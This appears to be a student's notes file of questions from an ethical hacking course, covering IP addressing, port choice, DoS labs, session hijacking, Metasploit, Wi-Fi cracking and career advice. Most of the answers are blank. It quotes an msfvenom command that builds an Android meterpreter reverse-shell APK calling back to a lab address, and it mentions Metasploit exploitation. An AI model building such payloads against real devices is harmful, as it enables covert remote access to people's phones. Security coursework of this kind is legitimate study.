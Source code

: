 1. is IP address can't be starting with 0 like this 0.012.322.333 ❌ , but initially 0 can be like this 012.223.112.999 ✔ - am i correct or wrong ? <br>Ques 1 : is 0.192.168.1 & 192.168.1.0 - is this IP address is correct or not ? & if not then why - ask for reason 

--- 

- lecture no. 27 - Android Hacking using Msfvenom & Ahmyth
- sir wrote the command : `msfvenom -p android/meterpreter_reverse_tcp lhost 192.168.133.128 lport 8686 >amit.apk`
	- Q Doubt 0 : if we make connection local to local system in vmware <br>then we can take any port no. , so can we actually take any port no. <br>Q Doubt 1 : consider we're making connection b/w local to local system <br>then why sir only took 8686 as a port no. <br>Q Doubt 2 : can we take port no. like 80 or something else <br>Q Doubt 3 : how to decided which port no. we can take to make connection
	- Ans of all 3 Qs  : 
		- 

---
- lecture no. - 14
- lecture name : network scanning 
- sir said : so "TCP" - can be scanned easily on 1 or 2 Ports , if TCP makes scanning on Port no. `65535` <br>then firewall will block
	- doubt : 
		- 1) is u meant that TCP can be scanned on Port no. `1` or `2`  OR did u mean 1 or 2 ports 
			- Ans : 
	- extra doubt : is any specific port no. used by TCP to establish connection with the IP address of a system
- sir said : when we do `netdiscover` & 1st & 2nd IP addresses are of Vmare's Virtiual router 
	- Doubt : 
		- so is that same statement will be applied in actual machine if we do ethical hacking via actual machines <br>currently we're doing hacking virtually 

---
- lecture no. 26 , name : concept of DOS attack
- practical work of hping3 
	- Doubt : in metasploitable2 , when we're running `cat /dev/urandom` - then sounds coming & sometimes sound coming
	- Q : how to turn ON or OFF before running `cat /dev/urandom`
	- Ans : 

---
Q : for what purpose private Static IP address 
	<br>- is it like when we share anything via bluetooth then private Static IP address being used , if not - then where give example

---
- lecture no. 27 & 28 , name : DOS attack practical & Session Hijacking
- Pratical : in DOS Attack practical - we used BurpSuite Tool <br>& in session Hijacking - we used Wireshark <br>- in both cases , we used different tools to intercept the data packets
- Doubt : can't we used BurpSuite tool in Session Hijacking - cuz we're intercepting the data packet request <br>- when user was login inside testphpvuln.com
- Ans : 

---
- Lecture 17 ✔
- lecture name : 
- sir run this command : `mount -o nfs 192.168.59.130:/ /home/kali/Desktop/Mount/`
	- Doubt : 

---

- lecture 17 to 19 ✔
- doubt : in these lectures , why we're using only msfconsole tool <br>- is that the reason that victim's system is metasploit that's why or not ?

--- 
- lecture 18 ✔
- lecture name : More About Exploitation & Armitage
- sir : when sir was doing exploit on tomcat then we're getting error i.e 500 internal server error
	- Doubt : i tried via msfconsole & even but same issue coming
	- Ans : 
--- 

- what does mean "found shell OR shell opened" when we hack a system ✔
- Ans : 

---

- lecture 34
- lecture name : cryptography
- sir said : that Substitution cipher technique takes 4 pairs from the plain text like message is "i am devendra"
	- timeline : 24:02 - 27:23
	- Doubt : is Substitution cipher technique actually takes 4 pairs or not  <br>if yes - then is it also skip next 4 pair - then it'll take next 4 pair for encryption<br>Ans : 
	- Doubt : is it also takes a space as a plain text <br>Ans : 

---

- lecture 30 , name - wifi hacking
- Doubt 1 : is wifi router save the mac address of a connected device
	- Ans : 
- Doubt 2 : cracking the password (which has WPA2 encryption) - & after running a common word list passwords <br>then let's say password still not cracked from that handshake file <br>- then what's the 2nd option - which was sir saying (but he didn't show the 2nd solution)
	- Ans : 

---

general doubt
- Q : how to check private vs Public IP on my PC
	- Doubt : when i executed `ipconfing` in cmd as administration - then which one is my private IP
	- Ans : 
- Q : if someone hacked a person's IP address then what that hacker can do<br>Q : how i can protect if someone hacked my IP address 
	- Ans : 
- Q : what is a payload or payload is a malicious scripts<br>Q : how is it different from virus & worm

---



--- 

- Q : parrot os vs kali linux os 2024 <br>Ans : <br>> Do hackers use ParrotOS? <br>Ans : Parrot Security OS and Kali are both used for Penetration testing and both are are Debian OS. If you go with the Kali you can use metasploit tool which is used for several reasons including System Hacking and Mobile Hacking. **This is not present in Parrot Security OS**.
	- [Kali Linux vs Parrot OS. Introduction | by S12 Pentest | Medium](https://medium.com/@ssalssa.1.12.2.1.2.1/kali-linux-vs-parrot-os-704b85972821)
	- Q : Why Kali is better than parrot ? <br>Ans : **Kali has all the basic hacking tools**, while Parrot also adds its own tools such as AnonSurf, Wifiphisher, Airgeddon. Kali has more than 300 pentesting and IT audit tools, while Parrot has more than 750 well-known cybersecurity applications.


---

- what is the syntax for deleting a report in msf6/msfconsole database in kali linux ✔
	- i tried to delete a specific report via "db_destroy" but it's not working
	- sir even said that remove that hosts report file from the folder then it'll automatically will be removed <br>but is there any command ?
	- doubt : i removed all the hosts successfully via armitage GUI , <br>but is there any cli command to remove the particular host/report in msfconsole
	- Ans : sir said , use `db_remove <host/IPaddress>` <br>- & generally we don't remove cuz if we do so - then further services related to msfconsole will also removed <br>- so do 

---

1. for guidance 
	- for get a job/internship into Ethical Hacking or cyber security what should i need to do <br>- Eg : Reddit eg : should i do CompTIA certs (A+, Net+, Sec+) - are these useful to do or any impact will happen in my resume

--- 

### Doubts after going through the course 

1. privilege escalation
   - Q : step by step process how to do privilege escalation on parrotOS
   - Mine advice : it's a big standalone topic - which u need to dig into deep
- 


--- 

### Guidance after course
- Q : in which i need to be updated & in which field not <br>Eg : so i need to keep update in CEH , penetration & in which field not need to be updated
- Q : will ai replace Ethical hackers , cuz u saw penetestGPT on github